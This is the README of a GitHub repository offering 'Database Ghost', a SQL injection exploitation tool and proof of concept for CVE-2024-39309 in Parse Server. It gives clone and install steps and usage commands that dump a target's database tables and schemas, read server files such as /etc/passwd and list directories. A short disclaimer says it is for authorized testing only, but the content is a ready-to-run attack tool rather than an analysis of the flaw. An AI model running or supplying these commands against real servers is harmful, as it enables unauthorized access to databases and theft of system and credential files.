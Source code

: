 Database Ghost 🔥
Advanced PostgreSQL SQL Injection Exploitation Tool
<p align="center"> <img src="https://img.shields.io/badge/Python-3.6%2B-blue?style=for-the-badge&logo=python" alt="Python"> <img src="https://img.shields.io/badge/PostgreSQL-SQL%20Injection-red?style=for-the-badge&logo=postgresql" alt="PostgreSQL"> <img src="https://img.shields.io/badge/CVE-2024--39309-orange?style=for-the-badge" alt="CVE-2024-39309"> </p>

🚨 DISCLAIMER
FOR AUTHORIZED SECURITY TESTING ONLY
Unauthorized use is illegal. Use only on systems you own or have explicit permission to test.

⚡ QUICK START
Install & Run

```
git clone https://github.com/HeavyGhost-le/POC_SQL_injection_in_Parse_Server_prior_6.5.7_-_7.1.0.git
cd POC_SQL_injection_in_Parse_Server_prior_6.5.7_-_7.1.0
pip install requests
chmod +x star_ghost_english.py
```

# Basic Usage

```bash
# Full database enumeration
python3 star_ghost_english.py -u http://target:1337 -a your-app-id

# Enumerate specific table
python3 star_ghost_english.py -u http://target:1337 -a your-app-id -t users

# Read specific file
python3 star_ghost_english.py -u http://target:1337 -a your-app-id -f /etc/passwd

# List directory contents
python3 star_ghost_english.py -u http://target:1337 -a your-app-id -d /var/www

# Read common system files
python3 star_ghost_english.py -u http://target:1337 -a your-app-id --read-system

# Enumerate specific schema
python3 star_ghost_english.py -u http://target:1337 -a your-app-id -s custom_schema
